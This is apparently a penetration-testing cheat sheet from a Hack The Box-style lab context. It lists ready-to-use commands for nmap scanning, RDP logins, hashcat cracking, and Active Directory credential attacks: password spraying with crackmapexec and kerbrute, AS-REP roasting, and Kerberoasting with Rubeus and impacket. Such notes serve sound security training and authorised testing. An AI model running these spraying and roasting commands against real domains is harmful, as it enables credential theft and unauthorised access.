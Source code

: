 ## Nmap

```sh
sudo nmap -p- -A -Pn -v --open $IP
```

```sh
sudo nmap -sS -sV -T4 -oN nmap_default.txt <IP>
```

### Edit /etc/hosts file

```sh
echo "10.129.76.146 sea.htb" | sudo tee -a /etc/hosts
```

### Connecting to RDP

```sh
xfreerdp3 /u:<username> /d:<domain> /p:<pwd> /v:<IP>
```

```sh
xfreerdp /cert-ignore /u:<uname> /d:<domain> /p:<pwd> /v:<IP>
```

### Hashcat

https://hashcat.net/wiki/doku.php?id=example_hashes

```sh
hashcat -m <number> hash wordlists.txt --force
```

## Active Directory

### Password Spraying

_Crackmapexec - check if the output shows 'Pwned!'_

```sh
crackmapexec smb <IP or subnet> -u users.txt -p 'pass' -d <domain> --continue-on-success
```

```sh Kerbrute
kerbrute passwordspray -d corp.com .\usernames.txt "pass"
```

### AS-REP Roasting

_Hash of AS-REP Roastable accounts_

```sh
impacket-GetNPUsers -dc-ip <DC-IP> <domain>/<user>:<pass> -request
```

### Kerberoasting

_dumping from compromised windows host, and saving with customname_

```sh
.\Rubeus.exe kerberoast /outfile:hashes.kerberoast #dumping from compromised windows host, and saving with customname

impacket-GetUserSPNs -dc-ip <DC-IP> <domain>/<user>:<pass> -request #from kali machine

hashcat -m 13100 hashes.txt wordlist.txt --force # cracking hashes
```
